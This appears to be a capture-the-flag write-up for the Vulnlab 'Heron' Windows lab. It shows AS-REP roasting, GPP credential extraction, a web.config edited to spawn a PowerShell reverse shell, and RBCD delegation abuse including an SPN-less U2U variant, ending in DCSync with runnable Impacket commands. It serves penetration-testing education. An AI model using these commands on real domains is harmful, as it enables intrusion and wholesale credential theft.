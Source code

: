 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Heron/logo.png
date: 2025-05-20 09:45:47 +07:00
modified: 2025-05-20 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Heron, Vulnlab, ASREPRoast, Hashcat, FoxyProxy, ProxyChains, SSH Proxy, LDAP Enumeration, GPP Password, SYSVOL, Password Spraying, Web.config Exploitation, Reverse Shell, Local Privilege Escalation, RBCD, SPN, Keytab Extraction, Delegation Abuse, DCSync, ldapsearch, Impacket, netexec, Jumpbox, U2U Attack, TGT, SPN-less RBCD, Kerberos, secretsdump, Active Directory, Internal Web Application, Privilege Escalation, Windows Shortcut Credentials, WriteAccountRestrictions]
title: Heron - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Heron is a Medium-difficulty Windows machine that emphasizes internal network pivoting, Kerberos abuse, and Resource-Based Constrained Delegation (RBCD) in a restricted environment. Initial access is gained through a jumpbox over SSH, with proxying set up via FoxyProxy and ProxyChains to access an internal web app leaking user emails. An AS-REP roasting attack leads to the compromise of a user account, which has read access to SYSVOL and exposes a GPP password for a local admin. Password spraying with these credentials uncovers writable access to a web application directory, allowing web.config modification for remote code execution. Lateral movement reveals credentials for another user, and further enumeration exposes a privileged user with WriteAccountRestrictions over the domain controller. Without machine account creation rights, RBCD is performed using a compromised jumpbox and later via a SPN-less user by leveraging Kerberos TGT and session key manipulation, ultimately leading to a successful DCSync and full domain compromise.


# Enumeration
As per the lab instructions, we only have access to port 22 and cannot reach the Domain Controller externally. We can enable an SSH proxy via the jumpbox.
![](https://photos.squarezero.dev/file/abir-images/Heron/1.png)

I configured the FoxyProxy browser extension to access internal web applications using a SOCKS proxy. The port matches the one set in /etc/proxychains.conf.
![](https://photos.squarezero.dev/file/abir-images/Heron/2.png)

I visited the internal web application and found 3 users emails.
![](https://photos.squarezero.dev/file/abir-images/Heron/3.png)

# Initial Access
## AS-REP Roasting
Using the discovered emails, I performed an AS-REP roasting attack and retrieved a hash for the user Samuel.Davies.
`GetNPUsers.py -request -format hashcat -no-pass -usersfile user.txt -dc-ip "10.10.249.213" -outputfile asrep.txt heron.vl/`

![](https://photos.squarezero.dev/file/abir-images/Heron/4.png)

I successfully cracked the hash using Hashcat.
![](https://photos.squarezero.dev/file/abir-images/Heron/5.png)

## GPP Credentials
Samuel has READ access to the SYSVOL share. 
![](https://photos.squarezero.dev/file/abir-images/Heron/6.png)

Using netexec with the GPP_Password module, I was able to extract a local admin password.
![](https://photos.squarezero.dev/file/abir-images/Heron/7.png)

## Web Application Code Execution
Using ldapsearch, I quickly enumerated a list of users:
`ldapsearch -x -LLL -H ldap://mucdc.heron.vl -D 'samuel.davies@heron.vl' -b 'DC=heron,DC=vl' -w '<Password>' | grep userPrincipalName | awk '{print $2}' | cut -d '@' -f 1 > allusers.txt`

After a password spray using the extracted password, I found that svc-web-accounting-d uses the same credentials and has READ & WRITE access to the accounting$ share.
![](https://photos.squarezero.dev/file/abir-images/Heron/8.png)

Inside the share, I found files related to the Accounting App, including its config file.
![](https://photos.squarezero.dev/file/abir-images/Heron/9.png)

I modified the web.config file to execute a reverse shell by changing processPath to PowerShell and adding the base64 payload in the arguments. Setting hostingModel to OutOfProcess enables execution outside the IIS worker process.
```C#
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="todo" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="powershell" arguments="-e PowerShell Base64" hostingModel="OutOfProcess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

After replacing the web.config and visiting the directory, I received a reverse shell.
![](https://photos.squarezero.dev/file/abir-images/Heron/10.png)

Within one of the files, I found credentials for the Jumpbox user.
![](https://photos.squarezero.dev/file/abir-images/Heron/11.png)

I used sudo su with those credentials to escalate privileges on the jumpbox.
![](https://photos.squarezero.dev/file/abir-images/Heron/12.png)

# Domain Compromise
Using the newly found password, another round of password spraying revealed that Julian.Pratt reused the same credentials.
![](https://photos.squarezero.dev/file/abir-images/Heron/13.png)

Inside her home directory, I found a shortcut file that contained the credentials for adm_prju.
![](https://photos.squarezero.dev/file/abir-images/Heron/14.png)

The user adm_prju has WriteAccountRestrictions permission on MUCDC, which allows modification of the machine account attributes.
![](https://photos.squarezero.dev/file/abir-images/Heron/19.png)

However, we do not have permissions to create new machine accounts.
![](https://photos.squarezero.dev/file/abir-images/Heron/16.png)

## RBCD With SPN
Since we can't create a machine account, but have access to the domain-joined Jumpbox, we can extract its NTLM hash from /etc/krb5.keytab and decrypt it using keytabextract.py.
![](https://photos.squarezero.dev/file/abir-images/Heron/18.png)

We then configure delegation so FRAJMP$ (Jumpbox) can impersonate MUCDC, request a service ticket as the impersonated user, and perform a DCSync attack.
```Bash
# Grant delegation
rbcd.py -delegate-from 'FRAJMP$' -delegate-to 'mucdc$' -dc-ip 10.10.173.21 -action 'write' 'heron.vl/adm_prju:<Pasword>'

# Get service ticket
getST.py -spn 'cifs/mucdc.heron.vl' -impersonate '_admin' 'heron.vl/FRAJMP$' -hashes :<NTLM Hash>

# Dump secrets
export KRB5CCNAME=<Ticket>
secretsdump.py -k mucdc.heron.vl
```

![](https://photos.squarezero.dev/file/abir-images/Heron/20.png)

## RBCD On SPN-Less User
Even without a Service Principal Name (SPN), the attack is possible. In scenarios where ms-DS-MachineAccountQuota = 0 and no domain-joined machines are compromised, we can still use the user account itself.

First, assign delegation rights directly from adm_prju to MUCDC.

```Bash
# Change Attribute
rbcd.py -delegate-from 'adm_prju' -delegate-to 'mucdc$' -dc-ip 10.10.173.21 -action 'write' 'heron.vl/adm_prju:<Pasword>'

# Check the Attributes
rbcd.py -delegate-from 'adm_prju' -delegate-to 'mucdc$' -dc-ip 10.10.173.21 -action 'read' 'heron.vl/adm_prju:<Pasword>'
```
![](https://photos.squarezero.dev/file/abir-images/Heron/17.png)

Initially, requesting the service ticket fails.
![](https://photos.squarezero.dev/file/abir-images/Heron/error.png)

To bypass this, first request a TGT using the NTLM hash of adm_prju, then extract the ticket's session key.
```bash
# Ticket Granting Ticket
getTGT.py -hashes :<hash> 'heron.vl'/'adm_prju' -dc-ip 10.10.233.37

# Extracting Ticket Session Key
describeTicket.py 'adm_prju.ccache' | grep 'Ticket Session Key'
```
![](https://photos.squarezero.dev/file/abir-images/Heron/21.png)

Replace the NTLM hash with the extracted session key and use the ticket to request a service ticket via U2U impersonation.
```Bash
# Change Hash
changepasswd.py -newhashes :<Session Key> 'heron.vl'/'adm_prju':'ayDMWV929N9wAiB4'@'heron.vl'

# Request Service Ticket
getST.py -u2u -impersonate "_admin" -spn "cifs/mucdc.heron.vl" -k -no-pass 'heron.vl'/'adm_prju'
```
![](https://photos.squarezero.dev/file/abir-images/Heron/22.png)

Finally, use the obtained service ticket to access the Domain Controller.
```Bash
export KRB5CCNAME=_admin@cifs_mucdc.heron.vl@HERON.VL.ccache
netexec smb 10.10.233.37 --use-kcache
```
![](https://photos.squarezero.dev/file/abir-images/Heron/23.png)